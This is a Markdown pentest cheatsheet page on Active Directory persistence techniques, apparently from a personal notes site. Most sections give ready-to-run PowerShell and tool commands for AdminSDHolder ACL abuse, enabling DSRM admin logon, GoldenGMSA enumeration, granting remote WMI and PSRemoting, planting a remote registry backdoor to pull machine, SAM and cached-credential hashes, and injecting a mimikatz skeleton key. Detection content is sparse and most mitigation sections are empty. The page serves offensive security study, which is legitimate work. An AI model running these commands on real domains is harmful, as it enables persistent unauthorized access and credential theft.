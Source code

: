 ```yaml
---
layout: post
title: pen / ad / persist
category: pen
parent: cheatsheets
modified_date: 2024-12-02
permalink: /pen/ad/persist
---
```


**Menu**
<!-- vscode-markdown-toc -->
* [adminsdholder](#adminsdholder)
* [dacl-abuse](#dacl-abuse)
* [dc-shadow](#dc-shadow)
* [dsrm](#dsrm)
* [golden-gmsa](#golden-gmsa)
* [security-descriptors](#security-descriptors)
	* [set-remoteWMI](#set-remoteWMI)
	* [set-remotePSRemoting](#set-remotePSRemoting)
	* [add-remoteRegBackdoor](#add-remoteRegBackdoor)
* [skeleton-key](#skeleton-key)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->


## <a name='adminsdholder'></a>adminsdholder

🔑 KEYPOINTS :
- special AD container with some "default" security permissions that is used as a template for protected AD accounts and groups
- roll backs the security permissions for protected accounts and group every 60 minutes, aka the Security Descriptor Propagator Update (SDProp) process.

▶️ PLAY :
```powershell
# add the user to the adminsdholder group 
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName spotless -Verbose -Rights All

# check the user has genericAll over the 'Domain Admins' group
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'spotless'}

# add the user back to the 'Domain Admins' group
net group "domain admins" spotless /add /domain
```

🔎️ DETECT :
```powershell
# find all users with security ACLs set by SDProp using the PowerShell AD cmdlets
Import-Module ActiveDirectory
Get-ADObject -LDAPFilter “(&(admincount=1)(|(objectcategory=person)(objectcategory=group)))” -Properties MemberOf,Created,Modified,AdminCount

# monitor the ACLs configured on the AdminSDHolder object. These should be kept at the default – it is not usually necessary to add other groups to the AdminSDHolder ACL.

# monitor users and groups with AdminCount = 1 to identify accounts with ACLs set by SDProp.

```

🛟 MITIGATE :
```powershell
```

🕮 READ MORE at :
- [thehacker.recipes/ad/persistence/adminsdholder](https://www.thehacker.recipes/ad/persistence/adminsdholder).
- [ired.team/abuse-adminsdholder](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)
- [adsecurity.org/adminsdholder](https://adsecurity.org/?p=1906)


## <a name='dacl-abuse'></a>dacl-abuse

🔑 KEYPOINTS :
![acerespond / win_00_sys_sd_ace](/assets/images/win_00_sys_sd_ace.jpg)
![thehackerrecipes / ad-persist-dacl-abuse-mindmap](/assets/images/ad-persist-dacl-abuse-mindmap-thehackerrecipes.png)

▶️ PLAY :
```powershell
```

🔎️ DETECT :
```powershell
```

🛟 MITIGATE :
```powershell
```

🕮 READ MORE at :
- [thehacker.recipes/ad/movement/dacl](https://www.thehacker.recipes/ad/movement/dacl/).
- [thehacker.recipes/ad/persistence/dacl](https://www.thehacker.recipes/ad/persistence/dacl/).
- [ired.team/abusing-active-directory-acls-aces](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)


## <a name='dc-shadow'></a>dc-shadow

🔑 KEYPOINTS :
- tbd 

▶️ PLAY :
```powershell
```

🔎️ DETECT :
```powershell
```

🛟 MITIGATE :
```powershell
```

🕮 READ MORE at :
- [thehacker.recipes/ad/persistence/dcshadow](https://www.thehacker.recipes/ad/persistence/dcshadow/).
- [ired.team/dcshadow](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)


## <a name='dsrm'></a>dsrm

🔑 KEYPOINTS :
- DSRM stands for 'Directory Services Restore Mode'
- allows remote access to the DC for the local admin accounts
- dump of local admins hash is required + activation of the feature in the **registry** 

▶️ PLAY :
```powershell
# check if the key exists and get the value
Get-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior 

# create key with value "2" if it doesn't exist
New-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2 -PropertyType DWORD 

# change value to "2"
Set-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2  
``` 

🔎️ DETECT :
```powershell
```

🛟 MITIGATE :
```powershell
```

🕮 READ MORE at :
- [hacktricks.xyz/dsrm-credentials](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dsrm-credentials)

## <a name='golden-gmsa'></a>golden-gmsa

🔑 KEYPOINTS :
- Group Managed Service Accounts (gMSA), which are managed directly by AD, with a strong password and a regular password rotation
- password are computed based on KDS root keys + gMSA account 'msDS-ManagedPassword' attribute value
- hack implemented by [semperis/goldenGMSA](https://github.com/Semperis/GoldenGMSA) tool 

▶️ PLAY :
```powershell
# enumerate KDS root keys,  SID, RootKeyGuid, Password ID
GoldenGMSA.exe gmsainfo

# enumeration for a single gMSA
GoldenGMSA.exe gmsainfo --sid "S-1-5-21-[...]1586295871-1112"
```

🔎️ DETECT :
```powershell
```

🛟 MITIGATE :
```powershell
```

- [trustedsec](https://www.trustedsec.com/blog/splunk-spl-queries-for-detecting-gmsa-attacks)

🕮 READ MORE at :
- [thehacker.recipes/ad/persistence/goldengmsa](https://www.thehacker.recipes/ad/persistence/goldengmsa).


## <a name='security-descriptors'></a>security-descriptors

🔑 KEYPOINTS :
- 

🕮 READ MORE at :
- [hacktricks/security-descriptors](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/security-descriptors)

### <a name='set-remoteWMI'></a>set-remoteWMI
```powershell
# grant WMI remote execution to a user
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc –namespace 'root\cimv2' -Verbose

# remove the grant of WMI remote execution
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc–namespace 'root\cimv2' -Remove -Verbose
```

### <a name='set-remotePSRemoting'></a>set-remotePSRemoting
```powershell
# grant PS remote execution to a user
Set-RemotePSRemoting -UserName student1 -ComputerName <remotehost> -Verbose

# remove the grant of PS remote execution
Set-RemotePSRemoting -UserName student1 -ComputerName <remotehost> -Remove
```

### <a name='add-remoteRegBackdoor'></a>add-remoteRegBackdoor
```powershell
# allows for the remote retrieval of a system's machine and local account hashes, as well as its domain cached credentials.
Add-RemoteRegBackdoor -ComputerName <remotehost> -Trustee student1 -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the local machine account hash for the specified machine.
Get-RemoteMachineAccountHash -ComputerName <remotehost> -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the local SAM account hashes for the specified machine.
Get-RemoteLocalAccountHash -ComputerName <remotehost> -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the domain cached credentials for the specified machine.
Get-RemoteCachedCredential -ComputerName <remotehost> -Verbose
```

* [](https://github.com/edemilliere/ADSI/blob/master/Invoke-ADSDPropagation.ps1)


## <a name='skeleton-key'></a>skeleton-key

🔑 KEYPOINTS :
- hack that injects a master password into the lsass process on a DC
- enables the adversary to authenticate as any user without password
- does not persist to reboot

▶️ PLAY :
```powershell
# execution on a DC
invoke-mimi 'misc::skeleton'
```

🔎️ DETECT :
```powershell
```

🛟 MITIGATE :
```powershell
```

🕮 READ MORE at :
- [thehacker.recipes/ad/persistence/skeleton-key](https://www.thehacker.recipes/ad/persistence/skeleton-key/).